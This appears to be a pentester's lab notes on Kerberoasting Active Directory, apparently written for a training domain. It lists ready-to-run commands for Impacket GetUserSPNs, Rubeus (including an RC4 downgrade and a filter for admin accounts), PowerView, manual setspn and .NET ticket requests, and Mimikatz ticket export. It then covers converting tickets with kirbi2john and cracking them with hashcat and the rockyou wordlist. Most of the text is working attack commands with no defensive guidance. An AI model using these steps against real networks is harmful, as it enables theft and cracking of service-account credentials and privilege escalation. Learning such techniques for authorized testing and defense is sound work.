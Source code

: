 Depending on your position in a network, this attack can be performed in multiple ways:
- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- **From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.**

Several tools can be utilized to perform the attack:
- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.

#### GetUserSPNs
View groups
```bash
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

```bash
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request -outputfile kerberoast.out
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev.tgs
```

```bash
hashcat -m 13100 kerberoast.out ~/rockyou.txt -O
```

#### Rubeus
View Kerberoastable account stats. 
```powershell
.\Rubeus.exe kerberoast /stats
```

> [!NOTE] Nore
>  If we see any SPN accounts with their passwords set 5 or more years ago, they could be promising targets as they could have a weak password 

Target a single user - **Adding `/tgtdeleg` will give us a RC4 ticket increasing cracking speeds (Doesn't work on Windows server 2019 and up)** 
```bash
.\Rubeus.exe kerberoast /tgtdeleg /user:sapservice /nowrap
```
Target admin accounts
```powershell
.\Rubeus.exe kerberoast /tgtdeleg /ldapfilter:'admincount=1' /nowrap
```
Check encryption type (`0`= `RC4` | `24`= `AES 128/256`) - **PowerView**
```powershell
Get-DomainUser sapservice -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
Crack
```bash
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```
#### PowerVIew
Extract TGS tickets
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname,serviceprincipalname
```
Target a specific user
```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
Export tickets to a .csv
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
type .\ilfreight_tgs.csv
```
#### Manual Kerberoasting (Windows)
Enumerate SPNs - **ignore the computer accounts**
```powershell
setspn.exe -Q */*
```
Target a single user
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
Target all SPNs (users **and** computers)
```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
Extract with mimikatz
```bash
base64 /out:true
kerberos::list /export  
```

> [!NOTE] Note
> If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

Prepare base64 blob for cracking
```bash
echo "<base64 blob>" |  tr -d \\n 
cat encoded_file | base64 -d > sqldev.kirbi
```
Extract Kerberos ticket and modify for hashcat
```shell
kirbi2john sqldev.kirbi
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
Crack
```bash
hashcat -m 13100 sqldev_tgs_hashcat ~/rockyou.txt -O
```